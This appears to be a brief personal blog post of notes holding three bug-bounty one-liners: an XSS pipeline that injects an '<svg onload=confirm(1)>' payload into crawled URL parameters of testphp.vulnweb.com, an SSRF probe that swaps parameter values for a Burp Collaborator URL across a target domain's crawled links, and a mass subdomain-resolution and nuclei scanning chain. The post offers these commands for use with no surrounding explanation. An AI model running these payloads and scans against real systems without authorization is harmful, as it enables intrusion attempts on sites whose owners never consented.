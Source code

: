 ```yaml
---
title: "HelloWorld"
date: 2023-07-23T16:51:27-07:00
draft: false
---
```


### Let's see how this works.

### Notes.

```
~%$: echo testphp.vulnweb.com | httpx -silent | hakrawler -subs | grep "=" | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'
```

### How about an ssrf one:
```
~%$: findomain -t DOMAIN -q | httpx -silent -threads 1000 | gau |  grep "=" | qsreplace http://YOUR.burpcollaborator.net
```

### ~~Scratch this.~~:
```
~%$: xargs -a domain -I@ -P500 sh -c 'shuffledns -d "@" -silent -w words.txt -r resolvers.txt' | httpx -silent -threads 1000 | nuclei -t /root/nuclei-templates/ -o re1
```